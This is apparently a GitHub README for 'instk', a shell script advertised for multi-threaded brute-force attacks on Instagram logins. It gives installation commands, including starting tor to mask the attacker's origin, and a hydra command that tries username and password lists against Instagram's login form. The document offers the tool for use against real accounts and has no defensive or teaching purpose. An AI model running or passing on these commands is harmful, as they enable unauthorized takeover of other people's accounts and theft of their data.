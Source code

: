 # instk

Instk is an Shell Script to perform multi-threaded brute force attack against Instagram


# Installation

git clone https://github.com/Khalidhusain786/instk.git

cd instk

chmod +x instkshell.sh

chmod +x install.sh

service tor start

./install.sh

bash instkshell.sh


# SCREENSHOT 

![CAPTURE 1](https://github.com/Khalidhusain786/instk/blob/main/khalid.jpg)

# HYDRA throw

hydra -l usernames.txt -P passwords.txt www.instagram.com http-post-form "/login/?next=/": "_username=^USER^&_password=^PASS^:F=incorrect" -V

